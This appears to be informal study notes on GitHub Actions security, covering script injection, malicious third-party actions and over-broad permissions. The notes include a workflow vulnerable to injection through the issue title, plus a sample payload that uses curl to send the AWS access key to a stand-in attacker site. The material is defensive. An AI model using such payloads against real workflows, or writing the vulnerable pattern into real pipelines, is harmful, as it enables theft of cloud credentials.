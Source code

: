 ## Security
The security concerns in github actions is an issue that needs to be 
1. Script Injections - workflow/value injects an issue into your workflow.
- Writing scripts directly in the shell may at times lead to string injections. Therefore it is advisabvle to used environment variables and pass them to the shell commannds instead of using the directly in the file. 
    ```
    jobs:
    assign-label:
        runs-on: ubuntu-latest
        steps:
        - name: Assign label
            run: |
            issue_title="${{ github.event.issue.title }}"
            if [[ "$issue_title" == *"bug"* ]]; then
            echo "Issue is about a bug!"
            else
            echo "Issue is not about a bug"
            fi
    ```
    Code above may be Susceptible to injection of malicioes code such as; 
    - `"a;curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID" sends the value of the access key to the website.
    - `"a;echo Got your secrets" test on a sample scipt injection.

2. Maliucious 3rd party - actions added to workflows may contain codes that steal your secrets or inspect the code of untrusted authors.
3. permission issues - cosidering overly permissive conditions such as read only to edit the code.